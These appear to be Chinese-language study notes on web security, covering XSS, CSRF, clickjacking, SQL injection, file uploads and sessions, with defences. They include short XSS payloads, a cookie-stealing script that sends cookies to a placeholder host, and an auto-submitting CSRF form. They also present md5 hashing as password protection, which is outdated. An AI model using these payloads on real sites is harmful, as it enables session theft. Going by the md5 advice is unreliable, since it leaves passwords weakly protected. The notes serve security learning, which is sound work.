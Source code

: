 # Web安全
***

## 游览器安全
* 同源策略
* 可以跨源的标签:`<script>,<img>,<iframe>,<link>`
* 受同源策略的限制:`DOM,Cookie,XMLHttpReuest,Flash(会通过对方的crossdomain.xml来判断)`
* EV SSL证书

## XSS攻击
* 反射型XSS: 需要用户点击才可发起攻击
    * 服务端
    ~~~php
    <?php
        $a = $_GET['a'];
        echo $a;
    ?>
    ~~~
    * 客户端: http://..../?a=(js)
    * 出现地方: **多出现在搜索的地方**
* 存储型XSS: 会把用户的输入存储到服务端
* DOM Based XSS: 通过标签的封闭来注入
	* 实例
	~~~html
    document.getElementById('t').innerHTML = "<a href='"+str+"' >testLink</a>"
    ...
    <div id='t'></div>
    ~~~
    * 攻击代码
    ~~~javascript
    str = '><script>alert(/xss/);</script><'
    ~~~
* 窃取Cookie
~~~javascript
var img = document.createElement('img');
img.src = 'http://.../log?coo='+escape(document.cookie);
document.body.appendChild(img);
~~~
* 构造POST和GET请求
	* GET: `img.src = http://.../?a=123&b=123`
	* POST:`ajax,jquery`
* 识别用户游览器：`alert(navigator.userAgent)`
* 获取用户IP
* 获取用户的历史
* XSS平台
	* Attaack API
	* BeEF(useful)
	* XSS-Proxy
* XSS构造技巧
	* 利用字符编码: `%c1\`在Unicode下会被当成一个字符，而在utf-8下不会
	* 绕过长度限制
		1. 服务端长度限制:对`$var`有长度限制
		~~~html
        <input type="text" value="$var">
        ~~~
        2. 普通技巧: `"><script>alert(/xss/)</script>`
        3. 缩短: `"onclick=alert(1)//`
        4. 或者用`SRC`链接
	* 使用`<base>`标签：定义页面上所使用“相对路径”的hosting地址，作用与后面的所有标签
	~~~html
    <base href="http://127.0.0.1">
    <img src="a.png">
    <!--src="http://127.0.0.1/a.png"-->
    ~~~
	* window.name的妙用
	~~~javascript
    /*实现跨域*/
    window.name = document.cookie;
    location.href = "http://...../...";
    ~~~
    * 重定向的利用：如果A域存在存储型漏洞，B域存在存储型或反射型XSS漏洞，可以从A跳到B，获取URL后跳回A，就达到了跨与攻击的目的。
* XSS防御
	* HttpOnly:游览器禁止JS访问带有HttpOnly属性的Cookie
	~~~php
    setcookie("name","value",,null,null,null,null,true) //最后一个true代表设置为httpOnly
    ~~~
    * 输入检查
    * 输出检查：`> --> &gt`,对php：htmlspecialchars;对javascript:JavascriptEncode(函数需要自己实现)
    * 编码：htmlEncode,javascriptEncode,urlEncode

##  CSRF攻击
* 全称：Cross Site Request Forgery
* Cookie分为两种：Session Cookie(临时Cookie)，Third-party Cookie(本地Cookie)。
* 对于不同的游览器，对于第三方Cookie的处理是不一样的。从A域访问B域，IE会拦截第三方Cookie，Firefox,Chrome则不会。
* P3P头可以实现发送第三方Cookie。
* POST请求构造技巧
~~~html
<iframe>
    <form action="..." id="p" method="post">
        <input type="text" name="username" value="aasd"/>
        <input type="password" name="passwd" vaue=""/>
        <input type="submit" name="submit" value="submit"/>
    <script>
        $("#p").submit();
        </script>
    </form>
</iframe>
~~~

* CSRF的防御
	* 添加验证码：给重要操作加上验证码
	* Referer Check:检查请求是否来自合法的“源”
	* Anti CSRF Token的使用：Cookie和Form中存token，服务器比对结果。

## ClickJacking(点击劫持)
* 通过iframe或其他tag设置为透明覆盖在网页功能键上实现点击劫持。
* Cross Site Image Overlaying(XSIO):他通过控制img的style改变位置，实现劫持。
* 防御
	* X-Frame-Options:http头
		1. DENY: 游览器会拒绝加载任何frame页面
		2. SAMEORIGIN: frame页面的地址只能为同域名下的页面
		3. ALLOW-FROM: 定义允许frame加载的页面地址

## Html5安全
* 新标签的影响：如video允许远程调用视频
* iframe的sandbox
* Link Types:noreferrer
* Canvas标签: 可是用Canvas破解验证码
* Web Storage: 保存数据

## SQL攻击
* 关闭错误回显：如果不关闭，如添加"'"会返回敏感信息。
* 宽字带注入： %5c
* SQL Column Truncation: sql-mode设置,mysql默认为严格模式。
* 防御：使用预编译语句，存储过程，检查数据类型，使用安全的函数
~~~php
//预编译
$query = "insert into city values(name,code,dis) values(?,?,?)";
$stmt = $mysqli->prepare($query);
$stmt->bind_param("sss",$val1,$val2,$val3);
$val1 = 'a';
$val2 = '1';
$val3 = '123';
$stmt->execute();
~~~
* 其他注入：XML注入，代码注入（如system函数），CRLF注入(\r\n,%0d%0a)

## 文件上传漏洞
* 漏洞类型：上传Web脚本语言，上传Flash策略文件crossdomain.xml,上传木马文件，上传包含了脚本的图片。
* 防御最好用白名单形式。（判断文件名后缀和检查文件头）
* 文件截断：`%00(修改POST数据,对路径而言)`
* 服务器解析漏洞

## 认证与会话管理
* 认证的目的是为了认出用户是谁，授权的目的是为了决定用户能够做什么。
* 加密密码：md5(passwd),md5(passwd+salt)
* Session Fixation攻击：登录前后Session未更新
